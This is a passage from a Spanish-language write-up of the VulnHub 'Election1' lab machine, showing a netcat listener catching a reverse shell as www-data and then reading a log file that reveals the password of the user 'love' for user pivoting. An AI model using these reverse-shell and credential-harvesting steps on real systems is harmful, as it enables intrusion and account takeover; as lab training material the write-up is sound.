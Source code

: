 ![rs3](/assets/img/commons/vulnhub/Election1/rs3.png){: .center-image }

Al ganar acceso al sistema, lo hacemos como el usuario `www-data`, debemos realizar `user pivoting`{: .filepath}.

Listando los archivos de logs del sistema, damos con el password del usuario `love`.

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.52] 40866
bash: cannot set terminal process group (747): Inappropriate ioctl for device
bash: no job control in this shell
www-data@election:/var/www/html$

www-data@election:/home/love$ cat /var/www/html/election/admin/logs/system.log                                                    
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2025-03-11 23:18:06] Love has been logged in from Unknown IP on Firefox (Linux).
```

#### 2 - Archivo Log

Dentro de la plataforma, en las configuraciones del sistema, podemos observar el archivo de logs, en el cual se incluyen las credenciales del usuario `love`.

![viewlogs](/assets/img/commons/vulnhub/Election1/viewlogs.png){: .center-image }
![viewlogs2](/assets/img/commons/vulnhub/Election1/viewlogs2.png){: .normal }
